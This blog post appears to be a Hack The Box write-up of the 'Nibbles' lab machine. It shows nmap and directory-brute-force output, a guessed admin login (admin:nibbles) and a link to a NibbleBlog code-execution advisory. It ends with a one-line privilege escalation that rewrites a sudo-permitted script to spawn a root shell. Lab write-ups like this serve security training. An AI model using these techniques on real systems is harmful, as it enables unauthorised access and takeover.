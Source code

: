 ```yaml
---
layout: post
title: "HTB Writeup - Nibbles"
date: 2019-11-18 12:59:50 +0000
---
```


# HTB writeup - Nibbles
<br />
Let's start with nmap:
```
└──╼ #nmap -sC -sV 10.10.10.75
Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-18 11:34 CET
Nmap scan report for 10.10.10.75
Host is up (0.073s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.95 seconds
```
<br />
As we can see, we have ssh and http. Let's head to:

http://nibbles.htb
<img src="/assets/nibbles1.PNG" alt="drawing" width="600"/>
<img src="/assets/nibbles2.PNG" alt="drawing" width="600"/>
<br />
Let's list the directories:

└──╼ #gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.75/nibbleblog/
[+] Threads:        10
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/18 11:44:16 Starting gobuster
===============================================================
/content (Status: 301)
/themes (Status: 301)
/admin (Status: 301)
/plugins (Status: 301)
/languages (Status: 301)
===============================================================
2019/11/18 11:51:33 Finished
===============================================================

└──╼ #dirb http://10.10.10.75/nibbleblog/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Nov 18 11:57:45 2019
URL_BASE: http://10.10.10.75/nibbleblog/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.75/nibbleblog/ ----
==> DIRECTORY: http://10.10.10.75/nibbleblog/admin/                                             
+ http://10.10.10.75/nibbleblog/admin.php (CODE:200|SIZE:1401)    
```
<br />
The most interesting page is http://10.10.10.75/nibbleblog/admin.php

Doing some guessing with usernames found in the directories, the credentials are admin:nibbles. 
<br />
<img src="/assets/nibbles3.PNG" alt="drawing" width="600"/>

I found a [vulnerability]([https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html]) affecting this version of nibbleblog. 

And we got access to the machine as nibbler!
<br />
Once I collected the user flag, I did some enumeration:
```
$ sudo -l
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
I went to "/home/nibbler/personal/stuff/monitor.sh", and I found THE script that does some monitoring of the system. Since nibbles can run that script without providing password, I issued this command: 
```
echo "#!/bin/sh\nbash" > monitor.sh & sudo ./monitor.sh
```
and I owned the machine!
